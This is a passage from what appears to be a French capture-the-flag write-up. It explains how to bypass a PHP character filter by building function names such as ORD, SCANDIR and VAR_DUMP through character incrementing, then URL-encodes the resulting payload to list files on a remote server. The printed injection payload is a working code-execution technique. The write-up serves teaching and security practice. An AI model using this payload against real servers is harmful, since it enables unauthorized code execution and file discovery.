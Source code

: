 ```php
$b ="V".$z."R_D".$n."MP"; // 'VAR_DUMP'
$b($h(".")); // VAR_DUMP(SCANDIR("."))

```

Ici, on créer une variable `$_` qui contient un tableau vide.

L'instruction d'après `$_=@"$_";` nous permet de récupérer le type de la variable `$_`, ici la chaîne de caractère 'Array'

Ensuite, l'instruction `$_=$_["!"=="@"]` nous permet de récupérer le premier caractère du contenu de la variable `$_` et d'écraser cette même variable par le résultat. Ici le caractère 'A'.

À partir de là nous copions ce caractère dans une variable `$z`.

Puis, en faisant `++$_`, on va passer au caractère suivant 'B', puis 'C', etc.

/!\ ATTENTION /!\ En PHP, l'incrémentation de caractère suit la même règle que le Perl et pas celle du C. C'est à dire qu'arrivé à 'Z', si on fait '++' sur la variable, nous allons passer à 'AA' et non pas au caractère suivant dans la table ASCII.

Nous allons donc stocker toutes les voyelles dont nous avons besoin.

Dans la variable `$j`, nous allons construire la fonction ['ORD'](https://www.php.net/manual/fr/function.ord.php).

/!\ AH OUI /!\ Les instructions PHP ne sont pas sensibles à la casse. C'est pour ça qu'on peut se permettre d'écrire du code en CAPSLOCK.

En résumé dans ce code :

- On récupère le caractère 'A' dans `$z`
- On récupère le caractère 'E' dans `$r`
- On récupère le caractère 'I' dans '$t'
- On récupère le caractère 'O' dans '$p'
- On construit la chaîne 'ORD' dans `$j`
- On récupère le code ASCII du caractère 'b' en utilisant la fonction `ORD` dans '$d'
- On récupère le caractère 'a' via [chr](https://www.php.net/manual/fr/function.chr.php) à partir du code ascii de "b" qu'on décrémente (ça pourra nous servir plus tard même si ça ne gêne pas dans l'immédiat)
- On récupère le caractère 'U' dans '$n'
- On construit la chaîne de caractère ['SCANDIR'](https://www.php.net/manual/fr/function.scandir.php) dans `$h`
- On construit la chaîne de caractère ['VAR_DUMP'](https://www.php.net/manual/fr/function.var-dump) dans `$b`
- On appelle le tout : `VAR_DUMP(SCANDIR("."))`

On va essayer de lister les fichiers présents dans le répertoire courant sur le serveur distant.

On va contrôler la taille de la chaîne générée et on va virer les commentaires et les sauts le lignes, puis on va encoder ça en codage URL

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$
233

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "SC{$z}ND{$t}R";$b ="V".$z."R_D".$n."MP";$b($h("."));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22SC%7B%24z%7DND%7B%24t%7DR%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22.%22%29%29%3B
```
